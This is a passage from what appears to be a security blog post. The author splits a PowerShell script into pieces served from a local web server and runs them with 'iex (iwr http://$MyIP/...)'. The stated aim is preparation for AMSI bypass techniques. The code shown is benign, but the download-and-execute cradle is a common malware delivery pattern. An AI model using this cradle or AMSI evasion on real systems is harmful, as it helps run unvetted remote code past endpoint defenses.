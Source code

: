 i started with a small simple scripts :

```powershell
# simple_test.ps1
echo 'x4sh3s'
$var = Get-Process
cat $var
```

Let's divided it into 3 files, and execute the main one, to see if there are any problems with scoping or something else..

```powershell
# 1.txt
$var = Get-Process
```

```powershell
# 2.txt
cat $var
```

```powershell
# main.ps1
echo 'x4sh3s';
iex ( iwr http://$MyIP/1.txt -UseBasicParsing );
iex ( iwr http://$MyIP/2.txt -UseBasicParsing );
```

> the 2 files here ```1.txt and 2.txt``` can be hosted online, or in your local machine by simply starting a simple python web server `python3 -m http.server 80`.
{: .prompt-info }

By executing `./main.ps1` We see the processes list, which means that the variable `$var` in `1.txt` is accessible by `2.txt`. Good, let's try something else, maybe `Add-Type`.

> `Add-Type` cmdlet adds a Microsoft .NET class to a PowerShell session. It's used by Some AMSI Bypass which we'll see later ..
{: .prompt-info }


I took this example from [*Microsoft*](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2):

```powershell
# script.ps1

echo "This Line Is Mine"

$Source = @"
public class BasicTest
{
  public static int Add(int a, int b)
    {
        return (a + b);
    }
  public int Multiply(int a, int b)
    {
    return (a * b);
    }
}
"@

Add-Type -TypeDefinition $Source
[BasicTest]::Add(4, 3)
$BasicTestObject = New-Object BasicTest
$BasicTestObject.Multiply(5, 2)
```
